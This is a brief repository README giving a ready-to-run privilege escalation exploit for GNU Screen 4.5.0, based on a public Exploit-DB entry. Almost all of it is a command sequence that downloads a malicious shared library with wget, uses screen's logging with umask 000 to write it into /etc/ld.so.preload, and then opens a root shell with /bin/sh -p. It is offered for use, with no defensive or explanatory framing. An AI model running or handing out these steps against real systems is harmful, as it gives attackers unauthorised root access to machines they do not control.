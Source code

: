 # Priv Esc for Screen 4.5.0
Based on https://www.exploit-db.com/exploits/41154

Remember to download libhax.so from this repo
```
cd /tmp
wget http://127.0.0.1/libhax.so    # Make sure libhax.so is in /tmp
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen ls
/bin/sh -p
```
